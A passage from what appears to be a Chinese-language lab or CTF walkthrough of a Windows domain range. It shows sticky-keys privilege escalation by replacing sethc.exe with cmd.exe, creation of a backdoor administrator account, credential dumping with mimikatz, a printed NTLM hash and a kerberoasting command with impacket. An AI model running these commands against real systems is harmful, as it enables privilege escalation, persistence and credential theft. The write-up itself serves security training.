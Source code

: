 可以了解到`SeRestorePrivilege`​授予对系统上所有对象的写访问权，而不管它们的ACL如何。此时我们就可以通过三种方式达到滥用特权的目的：

```bash
1、修改服务二进制文件
2、覆盖系统进程使用的DLL
3、修改注册表设置
```

尝试粘滞键提权

```bash
ren C://windows/system32/sethc.exe C://windows/system32/sethc.bak
ren C://windows/system32/cmd.exe C://windows/system32/sethc.exe
```

回到rdp锁定用户，在登录处按5下shift触发粘滞键弹出cmd拿到SYSTEM

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114151043-277ukgz.png?imageSlim)​

随后切换到对应目录读取flag

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114151211-id8ypv4.png?imageSlim)​

### 第四关

关卡剧情：尝试接管备份管理操作员帐户，并通过转储 NTDS 获得域管理员权限，最终控制整个域环境。

创建个管理员用户rdp上去

```bash
net user ttest Test@123 /add
net localgroup administrators ttest /add
```

传个猕猴桃上去，以管理员权限运行导出哈希

```bash
privilege::debug
sekurlsa::logonpasswords
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114152745-jcvx2j1.png?imageSlim)​

拿到XR-0923$的ntlm哈希

```bash
b76b9e077e8d1f117310a4e1eb50be45
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114153023-ql8hrmy.png?imageSlim)​

打kerberoasting

```bash
proxychains4 impacket-GetUserSPNs xiaorang.lab/'XR-0923$' -hashes ':a5ac13ae0abc9935a13e81c88f638494' -dc-ip 172.22.14.11
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114153452-v3rasbl.png?imageSlim)​

